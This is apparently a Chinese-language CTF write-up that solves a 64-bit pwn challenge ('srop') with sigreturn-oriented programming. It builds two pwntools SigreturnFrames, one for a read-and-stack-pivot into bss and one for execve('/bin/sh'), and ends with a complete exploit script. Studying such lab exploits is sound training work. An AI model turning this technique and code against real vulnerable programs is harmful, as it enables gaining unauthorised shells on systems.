那么如何获得shell呢？ 不难想到，我们可以利用SYS_execve("/bin/sh",0x0,0x0);来获取shell 那么我们就需要调用调用号为59的系统调用，并给rdi赋值为/bin/sh的地址，给rsi赋值为0x0，给rdx赋值为0x0 查找程序的字符串，并未找到类似/bin/sh或sh的字符串

那我们就需要再次调用SYS_read函数来写入/bin/sh到bss段，刚好也可以布置我们的execve的Signal frame

现在思路已经清晰了，开始上手吧！第一步¶
先写好基本格式
from pwn import *
p=process("./srop")
# p=remote("challenge-1ee3de1a2f7456fc.sandbox.ctfhub.com",26839)
elf=ELF("./srop")
bss_start=elf.bss()+0x100
print("bss_start : "+hex(bss_start))#方便确认bss段中的数据
gift=elf.symbols['gift']
context.clear()
context.arch="amd64"
syscall_addr=0x401179
因为是64位程序，所以其rbp的大小为0x8 则padding可以写成:
下面我们使用pwntools中的SigreturnFrame()来构造虚假的Signal Frame 为什么这样构造可参见第二步
frame=SigreturnFrame()
frame.rax=constants.SYS_read
frame.rdi=0x0
frame.rsi=bss_start
frame.rdx=0x300
frame.rbp=bss_start
frame.rip=syscall_addr
这里的Signal Frame实现了再次调用SYS_read来读入第二次的Signal Frame 为了能调用Sigreturn我们必须先控制rip指向gift函数，再指向syscall 则
但是经过测试，发现爆出了EOF错误，怎么回事呢，我们使用gdb看看

发现程序虽然跳进了gift但是未能执行syscall,而且当gift结束时rip指向了我们 padding的rbp，那我们就修改我们的payload:
再次测试，发现没有错误产生。 这样就可以正常输入了。
第一步完成
第二步¶
现在我们把栈迁移到bss段上，因为在我们在二次伪造系统调用后栈结构 已经损坏，无法继续使用，而且没有syscall;ret,我们就需要在bss段 上伪造一个栈，栈(bss_start)的起始地址是bss()+0x100(bss_start)这是 因为bss段在程序中只映射了一页(0x1000)而且，在bss段低地址处可能还存储着一些 重要数据，我们不能破坏他们。 这就是为什么我们要把/bin/sh写在bss段上的原因，在第一步的frame中， 我们让read函数读入了0x300的数据，这已经足够伪造一个栈了。 为了迁移栈，我们就把frame.rbp设置为了bss_start了。
那么现在我们就已经将栈迁移到了bss_start上了。 接下来构造执行execve的frame
frame1=SigreturnFrame()
frame1.rax=constants.SYS_execve
frame1.rdi=bss_start+0x200
frame1.rsi=0x0
frame1.rdx=0x0
frame1.rip=syscall_addr
那么/bin/sh就写在frame1的后面
payload2=p64(0x401179)
payload2+=p64(0x401136)
payload2+=bytes(frame1)
payload2+=b"\x00"*(0x200-len(payload2))
payload2+=b'/bin/sh\x00'
第二步完成
第三步(EXP)¶
我们现在把以上的payload串联起来就可以了 解题代码:
from pwn import *
p=process("/root/Desktop/ctf/pwn/srop")
# p=remote("challenge-1ee3de1a2f7456fc.sandbox.ctfhub.com",26839)
elf=ELF("/root/Desktop/ctf/pwn/srop")
bss_start=elf.bss()+0x100
print("bss_start : "+hex(bss_start))
gift=elf.symbols['gift']
context.clear()
context.arch="amd64"
frame=SigreturnFrame()
frame.rax=constants.SYS_read
frame.rdi=0x0
frame.rsi=bss_start
frame.rdx=0x300
frame.rbp=bss_start
frame.rip=0x401179
payload=b"\x00"*16
payload+=p64(0x401179)
payload+=p64(gift)
payload+=bytes(frame)
# gdb.attach(p)
payload2=p64(0x401179)
payload2+=p64(0x401136)
frame1=SigreturnFrame()
frame1.rax=constants.SYS_execve
frame1.rdi=bss_start+0x200
frame1.rsi=0x0
frame1.rdx=0x0
frame1.rip=0x401179
payload2+=bytes(frame1)
payload2+=b"\x00"*(0x200-len(payload2))
payload2+=b'/bin/sh\x00'
p.sendline(payload)
input("按任意键继续......")
p.sendline(payload2)
p.interactive()
运行代码输入
即可获得flag

FLAG¶
flag为动态